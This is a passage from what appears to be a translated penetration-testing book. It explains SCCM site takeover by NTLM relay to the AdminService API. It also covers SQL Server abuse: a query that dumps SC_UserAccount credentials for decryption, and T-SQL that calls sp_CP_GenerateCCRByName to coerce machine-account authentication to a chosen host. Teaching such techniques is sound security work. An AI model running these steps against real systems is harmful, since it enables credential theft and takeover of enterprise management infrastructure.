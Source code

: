 该技术在 *Mayyhem* 的博文 *SCCM 站点通过自动客户端推送安装接管* 中有很好的描述：[`posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1`](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)。

第二种技术利用 `AdminService` API 来接管 SCCM 站点。该 API 由 SMS 提供程序托管。每个提供程序都有一个本地组，名为 `SMS Admins`。默认情况下，主站点服务器计算机账户是该组的成员。现在，接管攻击将与之前的攻击相同。通过任何你喜欢的方式强制认证，捕获并将主站点计算机账户的 NTLM 响应中继到托管在 SMS 提供程序上的 `AdminService` API，并将一个用户添加为 **完全管理员**。

注意

*Garrett Foster* 的原始研究可以在这里找到：[`posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf`](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)。

这两种技术在默认安装后均可工作，仅需要网络连接和标准用户凭据。

## 滥用 Microsoft SQL Server

在站点接管后，或者如果攻击者获得了主站点使用的 Microsoft SQL Server 的访问权限，将会打开新的途径。首先，可以解密存储在`SC_UserAccount`表中的 SCCM 用户凭据。在我们的案例中，我将使用 SQL Server Management Studio 运行查询。查询如下所示：

```
USE CM_WIN
SELECT UserName,Password FROM SC_UserAccount
```

然后，我将使用`SCCMDecryptPoc`[16]工具，由*XPN*开发。解密结果如下所示：

![图 10.12 – sccm_cli_push 帐户的解密密码](img/B18964_10_12.jpg)

图 10.12 – sccm_cli_push 帐户的解密密码

另一个信息收集活动是转储与任务序列相关的表格，并查找凭据。输出将被混淆，但`SharpSCCM`库中由*Mayyhem*开发的`DeObfuscateSecretString`工具将能够提供帮助。

最后，有一个名为`sp_CP_GenerateCCRByName`的存储过程，可以用来强制客户端推送安装，并使 MP 机器帐户对我们选择的机器上的`ADMIN$`共享进行身份验证。代码如下：

```
USE CM_WIN
GO
DECLARE @return_value int
EXEC    @return_value = [dbo].[sp_CP_GenerateCCRByName]
        @MachineNameList = N'192.168.56.106',
        @SiteCode = N'WIN',
        @bForced = false,
        @bForceReinstall = false
SELECT 'Return Value' = @return_value
GO
```
